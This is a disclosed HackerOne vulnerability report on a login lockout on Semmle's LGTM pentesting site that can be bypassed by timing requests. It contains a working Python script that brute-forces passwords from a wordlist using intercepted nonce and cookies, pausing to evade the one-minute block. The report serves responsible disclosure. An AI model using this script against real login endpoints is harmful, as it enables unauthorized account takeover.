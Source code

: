 # the login blocking mechanism does not work correctly

## Report Details
- **Report ID**: 504362
- **URL**: https://hackerone.com/reports/504362
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-03-03T03:00:43.856Z
- **Disclosed**: 2019-03-19T11:58:46.854Z

## Reporter
- **Username**: aufzayed
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: semmle

## Vulnerability Information
## Summary:
The login block mechanism does not work correctly because it blocks the login for 1 minute and allows you to sign in again many times with specific pattern by allowing login 2 or 3 times after 1 minute

## Exploitation

1. open https://lgtm-com.pentesting.semmle.net/
2. try to login with valid E-mail and __do not__ use the correct password
3. user proxy to intercept requests
4. extract __nonce__ parameter and __cookies__
6. add email and passwords list and the values your are extracted at the following script

python3
```
import requests
import time

with open('passwords list path', 'r') as passwords:
    passwd_index = 0
    for passwd in passwords:
        passwd = passwd.split('\n')[0]
        HEADERS = {
	        'Host': 'lgtm-com.pentesting.semmle.net',
	        'Content-Type': 'application/x-www-form-urlencoded',
	        'Content-Length': '238',
	        'Cookie': ''
        }

        DATA = {
	        'email': 'your valid email',
	        'password': passwd,
	        'nonce': '',
	        'apiVersion': 'b5b3337fa392c83c27f4e05efc4ccbcb2dcf6cbf'

        }

        login = requests.post('https://lgtm-com.pentesting.semmle.net/internal_api/v0.2/login', headers=HEADERS, data=DATA)
        if login.status_code == 200:
            print(f'[#] {passwd}')
            break
        elif login.status_code == 400:
            print('[!] sleep 60s')
            time.sleep(60)
        elif login.status_code == 401:
            print(f'[{passwd_index}] {passwd}')
            time.sleep(5)
        else:
            print(login.status_code)
        passwd_index += 1
 ```

Then watch the results

## Impact

Can take over user account

## Attachments
No attachments
